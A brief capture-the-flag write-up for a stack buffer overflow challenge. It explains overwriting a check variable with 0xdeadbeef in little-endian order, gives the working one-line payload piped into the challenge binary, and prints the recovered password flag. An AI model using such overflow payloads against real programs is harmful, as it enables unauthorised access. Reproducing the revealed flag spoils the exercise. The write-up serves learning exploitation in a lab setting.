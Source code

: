 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we have give the buffer value and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

Then do ``ls -al``.

And ``cat .passwd``

We get ``1w4ntm0r3pr0np1s``
